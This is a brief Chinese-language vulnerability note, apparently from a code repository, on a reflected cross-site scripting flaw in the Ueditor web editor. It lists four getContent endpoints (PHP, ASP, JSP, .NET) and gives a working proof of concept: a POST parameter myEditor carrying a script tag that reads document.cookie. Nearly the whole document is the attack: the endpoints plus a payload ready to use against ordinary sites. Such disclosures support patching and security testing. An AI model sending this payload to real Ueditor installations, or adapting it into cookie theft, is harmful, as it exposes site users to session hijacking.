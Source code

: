 # Ueditor 反射型xss漏洞

## 漏洞地址：

/php/getContent.php
 /asp/getContent.asp
 /jsp/getContent.jsp
 /net/getContent.ashx

## 漏洞POC

POST:

```
myEditor=<script>alert(document.cookie)</script>
```


